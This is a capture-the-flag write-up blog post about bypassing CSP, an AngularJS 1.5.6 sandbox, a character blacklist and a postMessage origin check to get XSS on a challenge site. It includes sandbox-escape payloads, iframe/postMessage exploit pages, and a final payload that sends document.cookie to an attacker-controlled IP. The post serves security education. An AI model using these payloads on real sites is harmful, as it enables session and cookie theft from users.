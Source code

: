 ```yaml
---
title: STF [You shall not pass!]
author: Jason Chua (Coldspot)
date: 2020-12-08 00:00:51 +0800
categories: [CTF, STF]
tags: [sandbox, tech, angular, xss, web]
toc: true
comments: true
---
```


*3 SOLVES*

*DESCRIPTION*


We discovered a web portal used by COViD as a C2 platform to send messages to his ransomware victims. They have a script that accesses and hacks the websites posted back to the server! Can you stop them?

<!--more-->

# Initial Testing
Accessing the web site at [http://yhi8bpzolrog3yw17fe0wlwrnwllnhic.alttablabs.sg:41011/](http://yhi8bpzolrog3yw17fe0wlwrnwllnhic.alttablabs.sg:41011/) will lead us to a simple page shown below.

![upload-image](/assets/img/blog/STF-You-shall-not-pass!/1.png)

Attempting to broadcast a message will pop up a jQuery-based on-screen-keyboard which can be found at [github](https://github.com/chriscook/on-screen-keyboard) 
![upload-image](/assets/img/blog/STF-You-shall-not-pass!/2.png)
![upload-image](/assets/img/blog/STF-You-shall-not-pass!/3.png)

Broadcasting a message will display the broadcasted text in the embedded iframe which leads to `/broadcasts`.  
![upload-image](/assets/img/blog/STF-You-shall-not-pass!/4.png)

Entering a URL into the text box for  `Add new website to hack!` will result in the server sending a GET request to the specified URL.

![upload-image](/assets/img/blog/STF-You-shall-not-pass!/5.png)
![upload-image](/assets/img/blog/STF-You-shall-not-pass!/6.png)

2 other script tag can be found. `script.js` leads to a `404 Not Found` and a copy of Angular v1.5.6 is included.
![upload-image](/assets/img/blog/STF-You-shall-not-pass!/7.png)

`/broadcasts` contains a JavaScript file called `frame.js` which will be critical in developing of the exploit.
![upload-image](/assets/img/blog/STF-You-shall-not-pass!/8.png)

Iframes to the website can also be included in a web server on a different domain indicated by the lack of an `X-Frame-Options` header

![upload-image](/assets/img/blog/STF-You-shall-not-pass!/9.png)

# Discovering and planning of exploit

Attempting to inject JavaScript `<img/src/onerror=alert()>` in the broadcast field will result in `Refused to execute inline event handler because it violates the following Content Security Policy directive: "script-src 'unsafe-eval' 'self'". Either the 'unsafe-inline' keyword, a hash ('sha256-...'), or a nonce ('nonce-...') is required to enable inline execution.` in the console log.  

The key-points derived from the error is that the `unsafe-eval` in `script-src` directive is set to `self` which only allows the use of `eval()` in the same origin as the target site.

The initial plan of action is to post arbitrary JavaScript on `/broadcasts` page and enter the link of `/broadcasts` in the `Add new website to hack!` form. However, one issue is that the XSS is not stored. As such, having the server attempt a GET request on `/broadcasts` page will not execute said JavaScript. 

![upload-image](/assets/img/blog/STF-You-shall-not-pass!/10.png)

A solution to the above problem will be having the target server attempt a GET request to a web server that we own. Our web server will then include an iframe to the `/broadcasts` target URL and attempt to run the `postMessage()` function to send our payload to the `/broadcasts` endpoint which has a `receiveMessage()` function.

The payload should consist an iframe which contains a script tag that loads the angular script as well as a completed angular sandbox escape as well as CSP-bypassed code which runs arbitrary JavaScript, which had not been completed at this stage.

![upload-image](/assets/img/blog/STF-You-shall-not-pass!/11.png)

After a long time searching (and missing the obvious payload), I decided on a payload shown in a GitHub repository [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/XSS%20in%20Angular.md). 

```javascript
a=toString().constructor.prototype;a.charAt=a.trim;
$eval('a,eval(`var _=document.createElement(\'script\');_.src=\'//localhost/m\';document.body.appendChild(_);`),a')
```

This payload is ideal as it consists of the least number of bad characters as predetermined by `/broadcasts/frame.js`.

The adapted payload will have the script construct a string by reading in decimal values and converting it to ASCII from its ordinal value.

```javascript
a=toString().constructor.prototype;a.charAt=a.trim;$eval(toString().constructor.fromCharCode(97,44,97,108,101,114,116,40,34,67,79,76,68,83,80,79,84,34,41,44,97))
```

To test the script locally, download the vulnerable Angular source code from the challenge website and place it in a `javascripts` folder. Next, create an `index.html` page in the root folder
```html
{% raw %}
<html>
  <iframe id="xss"></iframe>
</html>

<script>
  setTimeout(function(){
    const frame = document.createElement('iframe')
    const inject = document.getElementById("xss")
    frame.srcdoc = `<script/src=/javascripts/angular.min.js><\/script><div/ng-app>{{a=toString().constructor.prototype;a.charAt=a.trim;$eval(toString().constructor.fromCharCode(97,44,97,108,101,114,116,40,34,67,79,76,68,83,80,79,84,34,41,44,97))}}</div>`
    document.body.innerHTML = frame.outerHTML.replace(" ", "/")

    inject.src = "http://localhost"
  },
  1000)
</script>
{% endraw %}
```
The result should be something like this:


![upload-image](/assets/img/blog/STF-You-shall-not-pass!/12.png)

Assuming you have [python](https://www.python.org/) installed, run the following command in the root directory in a command prompt and open up `http://localhost` on a web browser

Python 3+
```bash
python -m http.server 80
```
Python 2+
```bash
python -m SimpleHTTPServer 80
```

The following picture should be the outcome:
![upload-image](/assets/img/blog/STF-You-shall-not-pass!/13.png)

To make sure the exploit works for the server, add an `onload` function to inject to run `postMessage(frame.outerHTML)` and change inject.src to `http://yhi8bpzolrog3yw17fe0wlwrnwllnhic.alttablabs.sg:41011/broadcasts`. 

```html
{% raw %}
<html>
	<iframe id="xss"></iframe>
</html>

<script>
	
	const frame = document.createElement('iframe')
	const inject = document.getElementById("xss")
	frame.srcdoc = `<script/src=/javascripts/angular.min.js><\/script><div/ng-app>{{a=toString().constructor.prototype;a.charAt=a.trim;$eval(toString().constructor.fromCharCode(97,44,97,108,101,114,116,40,34,67,79,76,68,83,80,79,84,34,41,44,97))}}</div>`

	inject.onload = _ => {
		inject.contentWindow.postMessage(frame.outerHTML, "*")
	}

	inject.src = "http://yhi8bpzolrog3yw17fe0wlwrnwllnhic.alttablabs.sg:41011/broadcasts"

</script>
{% endraw %}
```

Hosting it locally and accessing it, you will realize that the page still did not work. No JavaScript alert ☹
![upload-image](/assets/img/blog/STF-You-shall-not-pass!/14.png)

There are 2 main reasons why this script did not work. First, the payload that was sent to the server contains blacklisted characters, and second, the URL did not pass the origin check on the server.

# Fixing of exploit

To fix the first issue of our payload having blacklisted character(s), we must first identify where did the blacklisted character(s) appear. We can first check the payload that was sent with the `postMessage()` function, which was `frame.outerHTML`.

![upload-image](/assets/img/blog/STF-You-shall-not-pass!/15.png)

As we can see, the payload contained a " " character after iframe which was blocked in `/broadcasts/frame.js`. To circumvent this, I used a `.replace(“ “, “/”)` for the outerHTML.

The second problem lies with the origin check. Recall that in `/broadcasts/frame.js`, there is a check for the `event.origin`

![upload-image](/assets/img/blog/STF-You-shall-not-pass!/16.png)

This Regular Expression check if `event.origin` begins with  `yhi8bpzolrog3yw17fe0wlwrnwllnhic.alttablabs.sg` and will return if the check fails. As such, we need a DNS to point to our server, starting with `yhi8bpzolrog3yw17fe0wlwrnwllnhic.alttablabs.sg`. [xip](http://xip.io/) provide a free domain name that points to any IP address. The domain name we will use is `yhi8bpzolrog3yw17fe0wlwrnwllnhic.alttablabs.sg.<IPADDRESS>.xip.io`. 

# Finishing up

Finally, the payload will be changed from `a, alert(“COLDSPOT”),a` to `a,document.location = "http://<IPADDRESS>/" + document.cookie,a`. Finally, port forward and retrieve your IP address and replace <IPADDRESS> with your own IP address.

Entering `yhi8bpzolrog3yw17fe0wlwrnwllnhic.alttablabs.sg.<IPADDRESS>.xip.io` into `Add new website to hack` form will cause the server to request a URL on our local server with the flag as the filename. 

![upload-image](/assets/img/blog/STF-You-shall-not-pass!/17.png)

# Thoughts

On the CTF day itself, I did not want to mess with port forwarding as many ports from my device were open and vulnerable. As such, I used a $5/month droplet on DigitalOcean and my own domain name `coldspot.me`. 

The grand total for the server cost can be seen in the picture below:
![upload-image](/assets/img/blog/STF-You-shall-not-pass!/18.png)


More info 
>> Ask me on Discord @Coldspot#7033
